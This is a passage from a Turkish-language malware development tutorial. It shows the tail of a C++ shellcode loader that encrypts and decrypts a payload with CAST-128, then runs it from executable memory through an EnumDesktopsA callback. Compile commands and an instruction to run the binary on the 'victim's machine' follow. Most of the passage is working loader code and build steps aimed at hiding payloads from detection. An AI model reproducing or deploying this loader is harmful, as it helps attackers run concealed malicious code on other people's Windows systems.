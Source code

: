 ```cpp

  cast_encrypt_shellcode(padded, my_payload_len, subkeys);

  printf("encrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  cast_decrypt_shellcode(padded, my_payload_len, subkeys);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, (LPARAM)
  NULL);
  return 0;
}
```

Bu örnek, `CAST-128` şifreleme algoritmasını kullanarak bir payload’u şifrelemeyi ve şifresini çözmeyi göstermektedir. Doğruluğunu kontrol etmek için eklenen yazdırma mantığı bulunmaktadır.   

### demo

Hadi her şeyi aksiyonda görelim. Derleyelim (benim `linux` makinemde):    

```bash
x86_64-w64-mingw32-gcc -O2 hack.c -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ -static-libgcc
```

![kriptografi](./images/131/2024-07-28_17-05.png){width="80%"}      

Daha sonra, bunu kurbanın makinesinde (`windows 11 x64` benim durumumda) çalıştırın:    

```powershell
.\hack.exe
```

![kriptografi](./images/131/2024-07-28_11-08.png){width="80%"}      

Gördüğünüz gibi, her şey mükemmel çalıştı! =^..^=     

Shannon entropisini hesaplayın:    
